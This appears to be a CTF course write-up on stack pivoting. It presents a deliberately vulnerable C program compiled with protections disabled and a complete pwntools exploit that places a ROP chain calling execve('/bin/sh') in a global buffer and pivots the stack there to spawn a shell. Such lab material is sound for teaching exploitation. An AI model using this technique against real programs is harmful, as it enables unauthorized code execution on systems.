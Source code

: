 ```yaml
---
title: Simple PWN - 0x09(stack pivoting)
tags: [CTF, PWN, eductf]

category: "Security/Course/NTU CS/PWN"
---
```


# Simple PWN - 0x09(stack pivoting)
###### tags: `CTF` `PWN` `eductf`

## Stack Pivoting background
[NTUSTISC - Pwn Basic 3 [2019.03.26]](https://youtu.be/iA4Hrr17ooI?t=6865)
[Pwn week1](https://youtu.be/ktoVQB99Gj4?t=7898)
It was used when stack overflow bytes not big enough to access a shellcode but it has another lots of writable space can be accessed.
More detailed info. can refer to [Binary Exploitation (Pwn)](https://youtu.be/5D7tvxpSUUM?t=9543)


## Original Code
```cpp!
#include <stdio.h>
#include <unistd.h>

char name[0x80]

int main()
{
    setvbuf(stdin, 0, _IONBF, 0);
    setvbuf(stdout, 0, _IONBF, 0);

    char s[0x10];

    printf("Give me your name: ");
    read(0, name, 0x80);

    printf("Give me your ROP: ");
    read(0, s, 0x20);

    return 0;
}
```
* You can observe that it has not much stack buffer overflow can use, but it has global variable `name` with space `0x80`(can be another stack)
    ```bash!
    gcc -o stack_pivoting stack_pivoting.c -no-pie -fno-stack-protector -z norelro -zexecstack -static
    ```
* <font color="FF0000">Note that</font>:
must use `mprotect` to change permission of global variable `name` just like [lecture 0x04](https://hackmd.io/@UHzVfhAITliOM3mFSo6mfA/HJhgXGKci), add these line in original code
    ```c!
    #include <sys/mman.h>
    mprotect(0x403000, 0x1000, PROT_READ|PROT_WRITE|PROT_EXEC);
    ```
    **Before `mprotect` - `vmmap`**
    ![](https://imgur.com/z8cK5SM.png)
    ![](https://imgur.com/J6qKJ8N.png)
    **After `mprotect` - `vmmap`**
    ![](https://imgur.com/gNr8Fya.png)

## Exploit
1. Construct `ROP` chain
    ```bash!
    objdump -d -M Intel stack_pivoting | grep "<name>"
    ROPgadget --binary stack_pivoting --only "pop|ret|syscall|leave" > one_gadget
    vim one_gadget
    ```
    ![](https://imgur.com/TYmCYw4.png)
    ![](https://imgur.com/o5L0Uvu.png)
    ![](https://imgur.com/OU9yJU4.png)
    ![](https://imgur.com/tWcfPEN.png)
    ![](https://imgur.com/ix4Phxm.png)
    ![](https://imgur.com/aZN3iu8.png)
    
2. Find address of variable `name`
    ```bash!
    objdump -d -M Intel stack_pivoting | grep "<name>"
    ```
    ![](https://imgur.com/l6OIT2S.png)
3. Whole exploit
    :::spoiler Code
    ```python!=
    from pwn import *

    context.arch = 'amd64'

    r = process('./stack_pivoting')
    raw_input()
    name = 0x4c70c0
    leave_ret = 0x40182d
    pop_rdi_ret = 0x401ecf
    pop_rsi_ret = 0x409efe
    pop_rax_ret = 0x44fd07
    pop_rdx_rbx_ret = 0x485b2b
    syscall = 0x401c84

    ROP = b'/bin/sh\x00'
    ROP += flat(
        pop_rdi_ret, name,
        pop_rsi_ret, 0,
        pop_rdx_rbx_ret, 0, 0,
        pop_rax_ret, 0x3b,
        syscall
    )

    r.sendafter("Give me your name: ", ROP)
    raw_input()
    r.sendafter("Give me your ROP: ", b'a'*0x10 + p64(name) + p64(leave_ret))

    r.interactive()
    ```
    :::
    * First, write `ROP` chain to global variable `name`
    * Next, use 2 `leave ; ret` to pivot `name` as a stack
4. Finally, you got shell!!!
    ![](https://imgur.com/kCyVi4N.png)

## Reference
[mprotect.2 man](https://man7.org/linux/man-pages/man2/mprotect.2.html)
[trace 30個基本Linux系統呼叫第二十二日：mprotect](https://ithelp.ithome.com.tw/articles/10187093)